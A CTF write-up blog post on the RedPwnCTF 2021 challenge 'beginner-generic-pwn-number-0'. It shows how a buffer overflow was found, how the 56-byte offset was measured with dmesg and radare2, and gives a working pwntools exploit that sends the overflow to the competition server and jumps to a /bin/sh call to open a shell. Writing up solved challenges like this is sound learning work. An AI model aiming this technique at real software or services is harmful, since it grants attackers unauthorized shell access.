 +++
author = "biplavxyz"
date = "2021-07-14"
title = "RedPwnCTF-2021 - Writeup - pwn/beginner-generic-pwn-number-0"
+++

Greetings everyone!  
This is going to be writeup about the challenge `beginner-generic-pwn-number-0` of `pwn` category from RedPwnCTF 2021.  
  
`Challenge 1: beginner-generic-pwn-number-0`  
Running the binary with sample input `test` simply exited the program with no error code, while running the binary with very long input threw `segmentation fault` error. So, the program had buffer overflow vulnerability.  
![1](/pwn1checking1.PNG)  

Then, I tried to find the number of bytes after which overflow occured. I printed a large number of 'A' character and passed it to the program, which caused program to crash with same `segmentation fault` error.  
```perl
perl -E "print 'A' x 58" | ./beginner-generic-pwn-number-0
```
![3](/pwn1checking3.PNG)  

Then, I ran `dmesg` command to print the message buffer of kernel.
![4](/pwn1checking4.PNG)  
It can be seen that crash was caused due to the bad value of `RIP` register.  
`4141` are two extra `A` characters that buffer couldn't handle, and thus it overwrote the instruction pointer.  
As we printed out `58` `A` characters, and had two extra `A`'s, the required offset will be `58-2` which equals to `56`.  

Now, it's time analyze the binary with radare2.
I opened the binary in radare2 with command:  
`r2 beginner-generic-pwn-number-0`, and analyzed the binary with `aaaa`.  
I extracted the binary info with `iI` command.  

![2](/pwn1binaryinfo.PNG)  
As the binary didn't have canary enable, and wasn't stripped, exploiting it was easy.  
Then, I printed functions list with `afl`, and seeked to the main function with `s main`.  

![5](/pwn1r2-1.PNG)  

![6](/pwn1r2-2.PNG)

Then, I printed the disassemble code of main function with `pdf` command. 
It can be seen that there is also an address `0x004012ac` which calls shell.  
```bash
/bin/sh
```
![7](/pwn1r2-addressofshell.PNG)
As instruction pointer can be controlled , it is possible to jump to the address where shell can be executed.  

I used pwntools to craft a simple exploit and got a shell.

{{< code language="python" title="Exploit Payload" id="2" expand="Show" collapse="Hide" isCollapsed="false" >}}
from pwn import *

#elf = ELF('./beginner-generic-pwn-number-0')

#p = elf.process()

#print(p.recv())

p = remote("mc.ax", 31199)

payload = b"A"*56 + p64(0x004012ac)

p.sendline(payload)

p.interactive()
{{< /code >}}

![8](/pwnexploit1.PNG)

And there it was, I got shell, and got the flag.

Hope you learned something.  
Thanks for reading!  
> - <cite>seizetheday</cite>
